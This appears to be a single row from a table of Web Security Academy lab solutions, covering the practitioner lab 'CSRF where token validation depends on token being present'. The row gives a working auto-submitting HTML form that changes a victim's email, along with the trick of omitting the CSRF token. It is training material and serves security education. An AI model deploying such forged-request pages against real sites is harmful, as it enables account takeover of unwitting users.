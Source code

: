 |44    |CSRF where token validation depends on token being present                                                               |<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">     <input type="hidden" name="$param1name" value="$param1value"> </form> <script>     document.forms[0].submit(); </script>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |Simply delete the csrf parameter entirely and note that this is now accepted.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |CSRF, Practitioner                          |